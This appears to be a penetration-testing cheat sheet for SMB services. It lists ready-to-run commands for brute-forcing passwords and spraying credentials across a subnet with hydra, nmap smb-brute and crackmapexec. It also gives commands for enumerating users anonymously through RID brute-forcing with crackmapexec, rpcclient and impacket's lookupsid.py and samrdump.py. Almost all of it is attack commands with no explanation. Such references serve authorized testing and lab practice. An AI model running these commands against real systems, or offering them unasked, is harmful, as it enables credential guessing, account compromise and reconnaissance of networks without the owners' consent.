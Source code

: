 ```bash
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb	
```

## nmap

```bash
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt $ip  -vvvv
```

## crackmapexec

```bash
sudo crackmapexec smb $SUBNET_TARGET/24  -u users.txt -p passwords.txt -d domain.com --continue-on-success

sudo crackmapexec smb $SUBNET_TARGET/24  -u users.txt -p passwords.txt -d domain.com --continue-on-success | grep "[+]"
```

# User Enumeration

## crackmapexec

```bash
crackmapexec smb $IP -u guest -p "" --users

# Use rid-brute to found users and groups of the machine
crackmapexec smb $IP -u guest -p "" --rid-brute
```

## Bash Command

```bash
# Brute Forcing User RIDs
for i in $(seq 500 1100);do rpcclient -N -U "" $IP -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done
```

## impacket lookupsid.py

```bash
# If IPC$ share is enabled, and have anonymous access we can enumerate users
lookupsid.py anonymous@$IP
```

## [impacket Samrdump.py](https://wadcoms.github.io/wadcoms/Impacket-SAMRDump/)

```bash
python3 samrdump.py test.local/john:password123@10.10.10.1
```
